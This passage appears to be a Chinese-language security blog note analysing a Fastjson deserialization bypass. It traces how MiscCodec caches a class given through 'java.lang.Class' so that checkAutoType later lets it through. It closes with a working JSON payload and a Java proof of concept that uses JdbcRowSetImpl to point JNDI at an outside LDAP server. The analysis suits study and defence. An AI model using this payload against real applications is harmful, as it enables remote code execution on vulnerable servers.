 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008172534594.png)

在deserialze方法时，MiscCodec.deserialze会进入下面这个if，如果strVal为我们传进去的恶意类，比如ldap用的`com.sun.rowset.JdbcRowSetImpl`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008172141862.png)

会把结果put进mappings

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008172732991.png)

之后再走到checkAutoType加载BasicDataSource时，用getClassFromMapping看直接有没有加载过

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008172804551.png)

于是返回了加载过的恶意类结果

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008172904352.png)

怎么设置strVal呢？strVal来自objVal

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008173126844.png)

objVal来自parser.parse()，如果下一个字符串是"val"，则用lexer.nextToken()移动到下一个标记，调用parser.accept确保当前符号为冒号，parser.parse()解析实际的对象值，赋给objVal

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241008184519145.png)

利用`"val":"com.sun.rowset.JdbcRowSetImpl"`即可把objVal设置为Val



完成绕过

JSON字符串：

```json
{
    {
    	"@type" : "java.lang.Class",
    	"val" : "com.sun.rowset.JdbcRowSetImpl"
	},
    {
    	"@type" : "com.sun.rowset.JdbcRowSetImpl",
    	"dataSourceName" : "ldap:your-ldapServer",
    	"autoCommit" : true
	}
}
```



JDNI POC：

```java
public class JdbcRowSetImpl_1_2_41 {
    public static void main(String[] args) throws Exception {
        String payload = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://172.22.112.1:8085/YAxwlVoO\",\"autoCommit\":true}}";
        JSON.parse(payload);
    }
}
```
